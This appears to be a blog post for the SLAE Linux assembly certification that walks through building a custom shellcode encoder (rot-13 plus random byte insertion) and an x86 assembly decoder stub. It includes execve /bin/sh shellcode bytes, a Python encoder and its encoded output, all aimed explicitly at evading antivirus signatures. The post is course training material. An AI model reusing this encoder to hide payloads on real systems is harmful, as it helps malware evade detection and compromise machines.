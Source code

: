 ```yaml
---
layout: post
title: SLAE 4 - Custom Encoder
date:   2019-02-28
categories: [SLAE, Assembly]
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

The fourth question for the SLAE exam is to create a custom encoder.  The requirements are:
* Create a custom encoding scheme like the "insertion encoder" from the course
* Show a PoC that uses execve-stack as the shellcode to encode with the schema and execute it

## Creating a custom encoder

A custom encoder is used in order to evade antivirus detection.  If a signature is made to detect a specific portion of code, then an encoder will obfuscate the code so that it does not recognize it as the known suspicious/malicious behavior.

Our steps are:
1. Decide on an encoding scheme to obfuscate the shellcode
2. Implement an encoder (in Python) that outputs the encoded shellcode
3. Create a decoding stub (in assembly) that manipulates the shellcode, in memory, and then hands off execution to the original shellcode

The trick here is that we will need a way to grab the memory address of the shellcode which is dynamic.  There is a known technique that we learned in the SLAE course that uses the JMP-CALL-POP instruction combination to obtain the shellcode's address during runtime.  
```asm
_start:
    jmp short get_sc
    
decode_stub:
    pop esi
    ...
    
get_sc:
    call decode_stub
    shellcode: db 0x3c,..... 
```
When we jump to get_sc, our two instructions are a call followed by our shellcode variable.  When the call is made, the next instruction's address is pushed to the stack so that when the call returns, we have the location to continue execution.  Since our first instruction when we land at our jump (decode_stub) is a pop instruction, it pops the address of our shellcode into the register of our choice!

One big note here is that the jmp short is used in order to prevent NULL bytes!  A post about this little trick that goes in to great detail can be found here:

https://marcosvalle.github.io/osce/2018/05/06/JMP-CALL-POP-technique.html

With that technique described.. it's time to start deciding on an encoding scheme.

The SLAE course provides an example insertion encoding scheme.  I decided to use this idea and add another encoding idea to it.  The encoder will rot-13 the shellcode and insert 1 random byte after each byte of shellcode.

as an example,:

0x11,0x11,0x11,0x11

will become something similar to:

0x1E,0xCE,0x1E,0xA2,0x1E,0x24,0x1E,0xE9,0xbb,0xbb

In order to detect the end of our shellcode, we will add 0xbb,0xbb to the end.  This idea was suggested in the course video as well.  This way we don't need to hardcode the length and can cmp to 0xbb then jump out if we have found it.

Our encoder is written in Python and we are encoding the shellcode "execve-stack.nasm" from the provided course materials:
```python
import random

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

encoded1 = ""
encoded2 = ""

for b in bytearray(shellcode):

	encoded1 += '\\x'
	encoded1 += '%02x' % ((b+13)%256)   # add rot-13'd shellcode

# 0xfa was causing issues when compiled, create check to avoid using it. Can add values to the array initialization if more become an issue
	bad_vals = [0xfa]
    	while True:
		rand = random.randint(1,256)
        	if rand not in bad_vals:
	        	break
            
	encoded1 += '\\x%02x' % rand        # insert random byte

	encoded2 += '0x'
	encoded2 += '%02x,' % ((b+13)%256)  # add rot-13'd shellcode
	encoded2 += '0x%02x,' % rand        # insert random byte

encoded1 += '\\xbb\\xbb'                # add our detection byte
encoded2 += '0xbb,0xbb'


print(encoded1)
print(encoded2)

print('Length: %d' % len(bytearray(shellcode)))
```
So we have 2 different forms of output, our usual "\x" bytes and the 0x, comma separated list which will be used in the assembly code.

Running this we receive the output:
```
0x3e,0x62,0xcd,0x8b,0x5d,0xb1,0x75,0x20,0x3c,0xb7,0x3c,0x5e,0x80,0x36,0x75,0xee,0x75,0x25,0x3c,0x05,0x6f,0xa3,0x76,0x8e,0x7b,0xea,0x96,0xa3,0xf0,0x8c,0x5d,0x6d,0x96,0x42,0xef,0x2a,0x60,0xe6,0x96,0xac,0xee,0xb3,0xbd,0x95,0x18,0x71,0xda,0x73,0x8d,0x04,0xbb,0xbb
```
We will save this for later.. 

Now to create the decoder:

We will need to set up our skeleton which will include the jmp-call-pop at the start:
```asm
global _start

section .text

_start:
    jmp short call_shellcode
    
decoder:
    pop esi

call_shellcode:
    call decoder
    ShellCode: db 0x3e,0x62,0xcd,0x8b,0x5d,0xb1,0x75,0x20,0x3c,0xb7,0x3c,0x5e,0x80,0x36,0x75,0xee,0x75,0x25,0x3c,0x05,0x6f,0xa3,0x76,0x8e,0x7b,0xea,0x96,0xa3,0xf0,0x8c,0x5d,0x6d,0x96,0x42,0xef,0x2a,0x60,0xe6,0x96,0xac,0xee,0xb3,0xbd,0x95,0x18,0x71,0xda,0x73,0x8d,0x04,0xbb,0xbb
```
The steps we will take in the main decode loop are:
1. Grab next byte to decode
2. Check for our tail (0xbb,0xbb). we check for both in a row just in case we run in to a single instance of 0xbb
3. If tail found, pass execution
4. Decode ROT-13 for the byte
5. Place decoded byte into proper position
6. Increase counters (our pointer to insertion location, and our pointer to the next encoded byte)
7. Loop

```asm
decoder:
	pop esi			; end of jmp-call-pop
	lea edi, [esi]		; set up first insertion byte address
	xor eax, eax
	xor ebx, ebx
decode:
	mov bl, byte [esi + eax]	; sc addr + insert count - this selects the next encoded shellcode byte
	cmp bl, 0xbb			; check for first byte of shellcode tail
	jnz cont
	cmp byte [esi + eax + 1], 0xbb	; check for 2nd byte of shellcode tail
	jz Shellcode			; end of shellcode - hand off execution
cont:
	sub bl, 13			; decode rot-13
	mov byte [edi], bl		; replace byte with the decoded byte
	inc edi				; increase edi to point to next byte to replace
	add al, 2			; increase al by 2 to the next inserted byte
	jmp short decode		; start loop over

call_shellcode:
```
bl stores \[esi + eax\], which translates to \[shellcode_addr + insertion byte counter\].  Since we are alternating between shellcode bytes and random inserted bytes, we increase al by 2 for each iteration.  This lets us skip the inserted byte and grab each byte of the encoded shellcode.

We then subtract 13 from the encoded byte value in order to obtain the original shellcode byte.  Then we move it into \[edi\]. EDI is our pointer for where the next byte of decoded shellcode should go.  
